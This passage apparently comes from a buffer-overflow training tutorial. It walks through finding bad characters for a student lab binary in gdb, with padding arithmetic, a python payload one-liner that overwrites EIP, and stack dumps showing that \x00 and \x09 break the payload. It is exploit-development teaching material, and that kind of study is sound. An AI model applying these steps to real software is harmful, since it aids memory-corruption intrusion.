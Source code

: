 We see where our " `\x55`" ends, and the `CHARS` variable begins. But if we look closely at it, we will see that it starts with " `\x01`" instead of " `\x00`". We have already seen the warning during the execution that the `null byte` in our input was ignored.

So we can note this character, remove it from our variable `CHARS` and adjust the number of our " `\x55`".

#### Notes

```shell
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 255 - 4) = 781

# "\x00" removed: 256 - 1 = 255 bytes
 CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"

   EIP = "\x66" * 4

```

#### Send CHARS - Without Null Byte

```shell
(gdb) run $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()

```

#### The Stack

```shell
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x09" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>

```

Here it depends on our bytes' correct order in the variable `CHARS` to see if any character changes, interrupts, or skips the order. Now we recognize that after the " `\x08`", we encounter the " `\x00`" instead of the " `\x09`" as expected. This tells us that this character is not allowed here and must be removed accordingly.
